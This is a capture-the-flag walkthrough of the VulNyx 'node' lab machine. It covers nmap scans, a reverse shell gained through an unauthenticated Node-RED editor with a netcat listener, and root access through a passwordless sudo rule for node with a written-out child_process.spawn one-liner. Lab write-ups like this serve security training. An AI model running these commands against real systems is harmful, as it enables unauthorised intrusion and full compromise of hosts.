


# node

## Executive Summary

| Machine | Author | Category | Platform |
| :--- | :--- | :--- | :--- |
| node | d4t4s3c | Low | VulNyx |

**Summary:** The node machine served the usual Apache landing page on port 80, but port 1880 carried the real prize: a Node.js Express application that turned out to be Node-RED, the flow based automation tool for wiring together devices and services. Node-RED was running without any authentication, so the entire editor was exposed to anonymous visitors. Since the platform supports nodes that execute shell commands, a flow was assembled in the editor with a node that ran a Bash reverse shell payload, producing a connection back to the attacker as the `dev` user, the account under which the Node-RED process was running. Once a stable shell existed as `dev`, the privilege escalation was a textbook sudo escape. The account was allowed to run `/usr/bin/node` as root without a password, and Node.js ships the `child_process` module, whose `spawn` function launches operating system processes with the privileges of the running interpreter. Invoking `sudo -u root /usr/bin/node -e` with a one line `child_process.spawn` call opened a root shell immediately, and both the user and root flags were recovered from it.

---

## Reconnaissance

The session opened with the standard host discovery sweep.

1. The target was identified at `192.168.56.114`:

```bash
┌──(kali㉿kali)-[~/nyx]
└─$ nmap -sn 192.168.56.0/24
Starting Nmap 7.99 ( https://nmap.org ) at 2026-08-12 23:25 -0400
Nmap scan report for 192.168.56.1 (192.168.56.1)
Host is up (0.00045s latency).
MAC Address: 0A:00:27:00:00:00 (Unknown)
Nmap scan report for 192.168.56.100 (192.168.56.100)
Host is up (0.00013s latency).
MAC Address: 08:00:27:4D:BA:F2 (Oracle VirtualBox virtual NIC)
Nmap scan report for 192.168.56.114 (192.168.56.114)
Host is up (0.0011s latency).
MAC Address: 08:00:27:79:0F:35 (Oracle VirtualBox virtual NIC)
Nmap scan report for 192.168.56.104 (192.168.56.104)
Host is up.
Nmap done: 256 IP addresses (4 hosts up) scanned in 1.94 seconds

┌──(kali㉿kali)-[~/nyx]
└─$ ip=192.168.56.114
```

2. An aggressive full port scan found three open services:

```bash
┌──(kali㉿kali)-[~/nyx]
└─$ nmap -p- -T4 --min-rate=1000 -Pn $ip
Starting Nmap 7.99 ( https://nmap.org ) at 2026-08-12 23:25 -0400
Nmap scan report for 192.168.56.114 (192.168.56.114)
Host is up (0.00025s latency).
Not shown: 65532 closed tcp ports (reset)
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
1880/tcp open  vsat-control
MAC Address: 08:00:27:79:0F:35 (Oracle VirtualBox virtual NIC)

Nmap done: 1 IP address (1 host up) scanned in 2.33 seconds
```

3. Version and script detection characterized the services:

```bash
┌──(kali㉿kali)-[~/nyx]
└─$ nmap -p 22,80,1880 -sC -sV -T4 -Pn $ip
Starting Nmap 7.99 ( https://nmap.org ) at 2026-08-12 23:26 -0400
Nmap scan report for 192.168.56.114 (192.168.56.114)
Host is up (0.00058s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey: 
|   3072 f0:e6:24:fb:9e:b0:7a:1a:bd:f7:b1:85:23:7f:b1:6f (RSA)
|   256 99:c8:74:31:45:10:58:b0:ce:cc:63:b4:7a:82:57:3d (ECDSA)
|_  256 60:da:3e:31:38:fa:b5:49:ab:48:c3:43:2c:9f:d1:32 (ED25519)
80/tcp   open  http    Apache httpd 2.4.56 ((Debian))
|_http-title: Apache2 Debian Default Page: It works
|_http-server-header: Apache/2.4.56 (Debian)
1880/tcp open  http    Node.js Express framework
|_http-cors: GET POST PUT DELETE
|_http-title: Node-RED
MAC Address: 08:00:27:79:0F:35 (Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.44 seconds
```

SSH sat on port 22, Apache on port 80, and the standout service was the Node.js Express application on port 1880, whose HTTP title identified it as Node-RED.

---

## Initial Access

### Abusing the Unauthenticated Node-RED Editor

4. Opening port 1880 in a browser displayed the Node-RED flow editor:



Node-RED is a visual programming tool built on Node.js. Its editor was reachable without any authentication, and its nodes are capable of executing arbitrary JavaScript and shell commands. That combination gave full command execution on the box.

5. A netcat listener was staged to receive the callback:

```bash
┌──(kali㉿kali)-[~/nyx]
└─$ nc -lvnp 4444                         
listening on [any] 4444 ...
```

6. A flow was constructed in the editor containing a node that executes a Bash reverse shell aimed at the attacker's machine:



7. Deploying the flow triggered the payload, and the shell connected back as the `dev` user:

```bash
connect to [192.168.56.104] from (UNKNOWN) [192.168.56.114] 50340
bash: no se puede establecer el grupo de proceso de terminal (411): Función ioctl no apropiada para el dispositivo
bash: no hay control de trabajos en este shell
dev@node:~$ script -qc /bin/bash /dev/null
script -qc /bin/bash /dev/null
dev@node:~$ ^Z
zsh: suspended  nc -lvnp 4444

┌──(kali㉿kali)-[~/nyx]
└─$ stty raw -echo;fg      
[1]  + continued  nc -lvnp 4444

dev@node:~$ export TERM=xterm
dev@node:~$ export SHELL=/bin/bash
dev@node:~$ stty rows 80 cols 130
```

A stable interactive shell existed as `dev`.

---

## Privilege Escalation

### Root Through the Node Interpreter

8. Checking `sudo` privileges for `dev` revealed the escalation primitive:

```bash
dev@node:~$ sudo -l
Matching Defaults entries for dev on node:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User dev may run the following commands on node:
    (root) NOPASSWD: /usr/bin/node
```

The account `dev` could run the Node.js interpreter as root without a password. Node's `child_process` module allows spawning operating system processes, which becomes arbitrary code execution when the interpreter runs as root.

9. A one line Node script was evaluated as root to spawn a shell:

```bash
dev@node:~$ sudo -u root /usr/bin/node -e 'require("child_process").spawn("/bin/sh", {stdio: [0, 1, 2]})'
# id;hostname
uid=0(root) gid=0(root) grupos=0(root)
node
# cat /home/dev/user.txt /root/root.txt
```

The `child_process.spawn` call launched `/bin/sh` with standard input, output, and error all attached to the current terminal, producing an immediate root shell from which both the user and root flags were read.

---

## Attack Chain Summary

1. **Reconnaissance**: A ping sweep isolated the target at `192.168.56.114`, and a full Nmap scan exposed SSH on port 22, Apache on port 80, and a Node.js Express application on port 1880.

2. **Vulnerability Discovery**: The Express application was identified as Node-RED, the flow based automation tool. Its editor was reachable without any authentication and supported nodes that execute shell commands.

3. **Exploitation**: A reverse shell flow was assembled in the Node-RED editor and deployed, returning a shell on the attacker's listener as the `dev` user.

4. **Internal Enumeration**: A `sudo` policy allowed `dev` to run `/usr/bin/node` as root without a password, giving the interpreter full privileges.

5. **Privilege Escalation**: The `child_process` module of Node.js was used through `sudo node -e` to spawn `/bin/sh` as root, producing a root shell and complete compromise of the machine.